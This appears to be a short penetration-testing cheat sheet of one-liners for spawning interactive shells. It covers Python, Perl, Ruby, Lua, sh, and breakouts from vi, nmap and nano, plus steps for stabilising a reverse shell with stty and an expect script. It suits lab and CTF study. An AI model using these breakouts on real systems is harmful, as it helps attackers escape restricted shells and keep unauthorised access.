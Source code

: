 #### Python
-----
```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```


#### Perl
-----
```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```


#### Ruby
-----
```exec "/bin/sh"```


#### LUA
-----
```os.execute("/bin/sh")```


#### sh
-----
```/bin/sh -i```


#### Vi
-----
```:!bash```

```:set shell=/bin/bash:shell```


#### nmap
-----
```!sh```


#### nano
-----
```ctrl+r ctrl+x /bin/bash```


#### stty (fixed)
-----
*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```


#### expect
-----
*cat sh.exp*

```#!/usr/bin/expect```

```spawn sh```

```interact```

